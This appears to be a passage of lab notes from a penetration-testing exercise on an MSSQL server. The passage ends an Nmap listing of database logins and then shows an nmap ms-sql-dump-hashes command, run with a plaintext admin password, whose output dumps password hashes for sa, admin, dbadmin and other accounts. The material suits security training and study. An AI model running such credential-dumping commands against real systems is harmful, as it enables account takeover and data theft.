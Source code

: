 ```
|       0x01020000000000052000000021020000	9	2021-01-20T01:47:08	2021-01-20T01:47:08	2021-01-20T01:47:08	0	0	0	0	0	BUILTIN\Users	master	Null	us_english	0	1	1	1	0	0	0	0	0	0	0	0	0	BUILTIN\Users
|       0x010100000000000512000000	9	2021-01-20T01:47:08	2021-01-20T02:50:35	2021-01-20T01:47:08	0	0	0	0	0	NT AUTHORITY\SYSTEM	master	Null	us_english	0	1	1	0	1	1	0	0	0	0	0	0	0	NT AUTHORITY\SYSTEM
|       0x0106000000000005500000002c4559766def9a2f8e23ea83ae7c7f71254cb2cc	9	2021-01-20T01:47:09	2021-01-20T01:47:09	2021-01-20T01:47:09	0	0	0	0	0	NT SERVICE\SQLTELEMETRY$SQLEXPRESS	master	Null	us_english	0	1	1	0	1	0	0	0	0	0	0	0	0	NT SERVICE\SQLTELEMETRY$SQLEXPRESS
|       0x4a84b80919150844b881d1c2fead7f03	9	2021-01-20T02:48:23	2021-01-20T02:48:23	2021-01-20T02:48:23	0	0	0	0	0	admin	master	Null	us_english	0	1	0	0	0	1	0	0	0	0	0	0	0	admin
|       0xc923586600ca1d40a00bcea3f83cf029	9	2021-01-20T02:50:33	2021-01-20T02:50:36	2021-01-20T02:50:33	0	0	0	0	0	Mssql	master	Null	us_english	0	1	0	0	0	1	0	0	0	0	0	0	0	Mssql
|       0xdab05f73c5a136409081bc4dd4bb1173	9	2021-01-20T03:01:26	2021-01-20T03:15:57	2021-01-20T03:01:26	0	0	0	0	0	Mssqla	master	Null	us_english	0	1	0	0	0	1	0	0	0	0	0	0	0	Mssqla
|       0x09f200d8751d4040b72ae7bd09a43fe0	9	2021-01-20T03:31:14	2021-01-20T03:31:14	2021-01-20T03:31:14	0	0	0	0	0	auditor	master	Null	us_english	0	1	0	0	0	0	0	0	0	0	0	0	0	auditor
|_      0x1f80eace64083c4598d9fc5c34060c84	9	2021-01-20T03:31:47	2021-01-20T03:31:47	2021-01-20T03:31:47	0	0	0	0	0	dbadmin	master	Null	us_english	0	1	0	0	0	0	0	0	0	0	0	0	0	dbadmin

# Nmap done at Sat Aug 27 09:34:52 2022 -- 1 IP address (1 host up) scanned in 0.42 seconds

```

Dump MSSQL users hashes

```
root@attackdefense:~# nmap -p 1433 10.0.27.132 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria
Starting Nmap 7.91 ( https://nmap.org ) at 2022-08-27 09:53 IST
Nmap scan report for 10.0.27.132
Host is up (0.0028s latency).

PORT     STATE SERVICE
1433/tcp open  ms-sql-s
| ms-sql-dump-hashes: 
| [10.0.27.132:1433]
|     sa:0x020011dbfaf35ba0d5e61a769e3604230fde23e5d3e01e7ff0ba3875cf75554803e2f1e1977b78de8f4489c95df9be979c02f1dec551300c109c408c427934815755b600c7e0
|     ##MS_PolicyEventProcessingLogin##:0x0200191cf079f310fb475527ac320aba7a4e8d5c3567bef2462b96ce8a8629b7f986ed344aa0963ac3a096da77056dad77a457644431282e2aa2c2243bc635abc6bb5f52552c
|     ##MS_PolicyTsqlExecutionLogin##:0x0200677385acfe08bb1119246cf20f9d17c3a0d86bbb1d48874725f2c2e0e021260b885d0ba067427e09afad9079e6759ad6497ee7f1ef3cd497d500585d7727eeba64426083
|     admin:0x02003814edd67dcab815b733d877a0fe7ec3470185864bd673c7273ba76c31e000c15e9fae25a826f6ba03892e37d6a1acae17f171d21dad7b20d874ccc259bbf9fa2230b9c0
|     Mssql:0x02001786154bb350ac708b5a4c3fc6b90dc68418a13ba5fcb76b155f8eee14d72988edb559d9a2d0d6fd5dd25b1fab8431c0ca424d747a5743624c30aa772b40c8f23c66e6a4
|     Mssqla:0x0200987f06858112a7fa0c70fe3f53c64061b35ae864782fc9cfcda3954ed60ca7e47e8497a571d177edb596f125cb529d7b2753e4d8e913c2b127a12207e3bcb75f70e29cb5
|     auditor:0x020061cbe8509dfea47fbc20be854c4ac517bf6aa67f9f7c12d7d1efb1f500be279643c6cd19d370f9eff4f2d9b981a16f6916bc4534e8ba42d718f8b908fbfffb40d5cc1a5e
|_    dbadmin:0x02000d6c6a0d55f536f9dbff2d8cc1e0965c550e1a1a1e7c6df8b7e6534ab817408f86dd9592b206862c4b7a3d1f6ca85f439360171d7c5143d6fba8606675dbaf5bea40d15b

Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds

```
